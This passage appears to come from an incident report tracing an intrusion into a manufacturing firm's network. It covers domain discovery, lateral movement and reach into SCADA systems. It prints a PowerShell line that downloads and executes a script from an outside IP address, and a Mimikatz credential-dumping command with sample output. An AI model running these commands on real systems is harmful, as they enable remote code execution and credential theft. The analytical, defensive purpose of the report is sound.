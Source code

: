 ```bash
net localgroup Administrators

# Download additional tools
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://185.143.223.47/tools.ps1')"
```

### Phase 4: Lateral Movement (Days 15-17)

**Credential Dumping**:
```powershell
# Using Mimikatz to extract credentials from memory
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Results (sanitized):
# Username: domain_admin
# Domain: MANUFACTURECO
# NTLM Hash: [HASH_VALUE]
# Password: ManufactureCo2023! (weak, predictable)
```

**Domain Admin Compromise**:
- Shared domain admin account used across organization
- Password never changed (set in 2023)
- No monitoring of privileged account usage
- Credential worked on all domain controllers

**Network Mapping**:
```mermaid
graph TD
    A[Compromised Workstation] -->|RDP| B[File Server 01]
    A -->|SMB| C[File Server 02]
    A -->|WinRM| D[Domain Controller]
    A -->|SQL| E[SAP Database Server]
    A -->|RDP| F[Manufacturing Network Gateway]
    
    D -->|Replication| G[Domain Controller 02]
    F -->|Industrial Protocol| H[SCADA Server]
    H --> I[PLC Controllers]
    
    style D fill:#ff9999
    style G fill:#ff9999
    style E fill:#ffcccc
```

**Systems Accessed**:
- 3 Domain Controllers
- 12 File Servers
- 2 Database Servers (SAP)
- 8 Application Servers
- Manufacturing network gateway
- SCADA/MES systems

### Phase 5: Privilege Escalation & Persistence (Days 17-18)

